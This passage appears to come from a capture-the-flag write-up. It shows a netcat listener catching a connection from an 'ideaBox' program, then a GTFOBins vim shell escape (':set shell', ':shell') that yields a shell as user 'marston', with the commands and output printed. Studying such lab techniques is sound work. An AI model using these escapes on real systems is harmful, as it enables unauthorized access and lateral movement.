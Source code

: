 
```bash
ArthurMorgan@incognito:~$ nc -nlvp 4545
Listening on [0.0.0.0] (family 0, port 4545)
Connection from 127.0.0.1 37376 received!


ideaBox
1.Write
2.Delete
3.Steal others' Trash
4.Show'nExit
```

Wow! It's giving us options to select!

Trying with every option, I figured out that the option 4 opens a `vim` editor, so I can exploit that!

With the following code from [GTFOBins](https://gtfobins.github.io/gtfobins/vim/):

```
vim
:set shell=/bin/sh #I used bash :p
:shell
```

```bash
ArthurMorgan@incognito:~$ nc -nlvp 4545
Listening on [0.0.0.0] (family 0, port 4545)
Connection from 127.0.0.1 37376 received!


ideaBox
1.Write
2.Delete
3.Steal others' Trash
4.Show'nExit
:set shell=/bin/bash
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
:shell
id
uid=1002(marston) gid=1003(marston) groups=1003(marston)
```
(It's a little bugged the code, but I just copy pasted the GTFOBins's code and worked!)

